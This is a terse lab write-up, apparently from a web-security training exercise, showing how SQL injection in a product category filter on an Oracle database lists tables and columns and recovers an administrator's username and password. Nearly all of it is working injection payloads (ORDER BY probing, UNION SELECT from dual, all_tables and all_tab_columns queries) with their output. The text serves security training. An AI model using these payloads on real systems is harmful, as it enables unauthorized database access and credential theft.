 Lab: SQL injection attack, listing the database contents on Oracle
Vuln : SQLi in product category filter.
Task : FInding usernames and passwords.

DB : Oracle

' order by 1--
' order by 2--
' order by 3-- : Error -> 2 cols in table

' union select 'a',null from dual--
' union select 'a','a' from dual--

' union select table_name,null from all_tables--
table name : `USERS_GTEVZI`

SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS_GTEVZI' 

USERNAME_GIFLDE
PASSWORD_PTVWOP

administrator
8enutq6fmgitp474fh3q